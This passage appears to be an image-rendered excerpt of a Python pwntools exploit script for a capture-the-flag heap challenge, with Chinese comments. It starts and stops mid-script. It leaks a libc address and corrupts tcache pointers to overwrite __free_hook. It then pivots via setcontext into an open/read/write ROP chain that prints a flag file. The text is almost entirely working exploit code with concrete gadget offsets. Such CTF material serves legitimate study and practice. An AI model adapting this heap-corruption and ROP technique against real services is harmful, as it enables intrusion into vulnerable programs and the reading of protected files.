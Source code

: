 ```py
p.sendline("96")
p.recvuntil("content: ")
p.send("g")

create(2,0x60,"g"*24)
show(2)
#  0x7fe12af73000 0x7fe12b15f5c0
p.recvuntil("content: gggggggggggggggggggggggg")
libc_leak=u64(p.recv(6).ljust(8,b"\x00"))
libc_base=libc_leak-0x1ec5c0
print(hex(libc_base))
free_hook=libc_base+libc.sym["__free_hook"]
delete(3)
create(1,0x50,"h")
create(3,0x50,"i")
delete(1)
delete(3)
p.recvuntil("choice>> ")
p.sendline("2")
p.recvuntil("idx: ")
ropchain=p64(pop_1_2_ret)+p64(heap_base+0x690)+p64(0x100000000+0x50)+p64(0xaa)+p64(0x145)
payload=b"6hhhhhhh"+p64(0)+p64(ret)*5+ropchain # 看栈够不够 发现不够，那就升吧
# set {int}$rebase(0x70b8)=0x1e30 set {int}$rebase(0x70c0)=0x1ec8
#gdb.attach(p)
#pause()
p.send(payload)
pop_rdi=0x26b72+libc_base
pop_rsi=0x27529+libc_base
pop_rdx_r12=0x11c371+libc_base
flag_addr=heap_base+0x990+0x100
pop_rax=0x4a550+libc_base
syscall=libc_base+libc.symbols["read"]+0x10
rop=p64(pop_rdi)+p64(flag_addr)+p64(pop_rsi)+p64(0)+p64(pop_rax)+p64(2)+p64(syscall)
rop+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(flag_addr)+p64(pop_rdx_r12)+p64(0x30)+p64(0)+p64(libc_base+libc.symbols["read"])
rop+=p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(flag_addr)+p64(pop_rdx_r12)+p64(0x30)+p64(0)+p64(libc_base+libc.symbols["write"])
#my_payload=flat({0x8:p64(heap_base+0x690),0x20:p64(libc_base+libc.symbols["setcontext"]+61),0x78:p64(heap_base+0x100),0xa0:p64(heap_base+0x100),0xa8:p64(ret),0x100:ropchain,0x300:b"flag\x00"})
payload3=b"a"*0x8+p64(heap_base+0x690)+p64(3)*2+p64(libc_base+libc.symbols["setcontext"]+61)+p64(0)*7+p64(0)+p64(0x21)+p64(heap_base+0x690)+p64(heap_base+0x990)+p64(0)+p64(0x71)+p64(3)*2+p64(heap_base+0x990)+p64(libc_base+0x581ee)+p64(0)*8+p64(0)+p64(0x21)+p64(heap_base+0x690)+p64(0x60)+p64(0)+p64(0x71)+p64(0)*12
# 这一步覆盖的时候注意维护原有链表结构和维护 free 的 tcache 的 fd 指针
payload3+=p64(0)+p64(0x21)+p64(0)*2+p64(0)+p64(0x61)+p64(0)*10+p64(0)+p64(0x61)+p64(free_hook)+p64(0)*9+p64(0)+p64(0x21)+p64(heap_base+0x820)+p64(0)+p64(0)+p64(0x206f1)
payload3=payload3.ljust(0x300,b"\x00")+rop
payload3=payload3.ljust(0x400,b"\x00")+b"flag\x00"
magic=libc_base+0x154930   # mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rsp], rax ; call qword ptr [rdx + 0x20]
sleep(0.4)
p.send(payload3)
#create(1,0x50,"j")

p.recvuntil("choice>> ")

p.sendline("1")
recv=p.recv(timeout=0.01)
if b"choice" in recv:
    p.sendline("1")
    p.recvuntil("idx: ")
    p.sendline("1")
elif b"idx" in recv:
```